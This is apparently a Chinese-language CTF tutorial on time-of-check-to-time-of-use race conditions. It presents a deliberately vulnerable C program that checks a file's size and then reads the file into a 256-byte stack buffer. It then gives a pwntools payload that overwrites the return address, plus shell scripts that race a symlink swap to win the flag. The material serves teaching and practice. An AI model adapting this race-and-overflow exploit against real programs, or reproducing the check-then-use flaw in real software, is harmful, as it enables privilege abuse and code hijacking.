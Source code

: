 # 题目

## 构造例子

### 源代码

源代码如下

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

### 分析

可以看出程序的基本流程如下

- 检查传入的命令行参数是不是 “flag”，如果是的话，就退出。
- 检查传入的命令行参数对应的文件大小是否大于 255，是的话，就直接退出。
- 将命令行参数所对应的文件内容读入到 buf 中 ，buf 的大小为 256。

看似我们检查了文件的大小，同时 buf 的大小也可以满足对应的最大大小，但是这里存在一个条件竞争的问题。

如果我们在程序检查完对应的文件大小后，将对应的文件删除，并符号链接到另外一个更大的文件，那么程序所读入的内容就会更多，从而就会产生栈溢出。

### 基本思路

那么，基本思路来了，我们是想要获得对应的`flag`的内容。那么我们只要通过栈溢出修改对应的`main`函数的返回地址即可，通过反汇编以及调试可以获得`showflag`的地址，获得对应的payload

```python
➜  racetest cat payload.py 
from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
```

对应两个条件竞争的脚本为

```sh
➜  racetest cat exp.sh    
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

其中 exp 用于来竞争在相应的窗口内删除 fake 文件，同时执行符号链接。run 用来执行程序。

### 具体效果

```shell
➜  racetest (sh exp.sh &) && sh run.sh
[...]
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
flag{race_condition_succeed!}
[...]
```

其中成功的关键在于对应的 `sleep` 的时间选择。

# 参考

- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html
- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io